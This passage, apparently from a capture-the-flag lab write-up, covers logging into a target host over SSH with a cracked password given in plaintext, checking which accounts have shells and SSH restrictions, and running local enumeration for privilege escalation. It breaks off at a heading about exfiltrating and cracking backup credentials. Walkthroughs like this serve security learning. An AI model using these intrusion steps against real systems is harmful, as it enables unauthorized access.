 These were likely real user accounts on the target system. With this information in hand, next step was to attempt **SSH login** to see if either account had remote access privileges.
## Lateral movement vector
### SSH
```bash
ssh gael@10.10.11.74 #mattp005numbertwo
```

```sh
sshpass -p 'mattp005numbertwo' ssh gael@10.10.11.74 -p22
```

The `gael` account allowed me to log in successfully. I also tested the other cracked account (`robert`) in case multiple users had SSH access.

If a user is blocked from SSH, I check which accounts have valid shells and whether `AllowUsers` restrictions are in place:
```bash
getent passwd | awk -F: '$7 ~ /sh$/ {print $1 ":" $7}'
```
**Output**:
```md
root:/bin/bash  
gael:/bin/bash  
app:/bin/bash
```

`robert` appeared to be a web user without a valid shell. also confirmed there were no `AllowUsers` restrictions:
```bash
grep -i AllowUsers /etc/ssh/sshd_config 2>/dev/null || true
```

---
# Privilege Escalation to xxx

## Local enumeration
Performed a quick enumeration to gather system information and look for potential privilege escalation paths
>gael:mattp005numbertwo
```bash
id; whoami; hostnamectl  
ss -tulnp | grep LISTEN  
ls -la /var/backups
sudo -l 
```
**Findings**:
- `gael` was **not** a sudo user.
- A backup archive existed at `/var/backups/backrest_backup.tar.gz`.
- An internal service was listening on `127.0.0.1:9898`.
## Privilege Escalation vector
### Exfiltrating and Cracking Backup Credentials

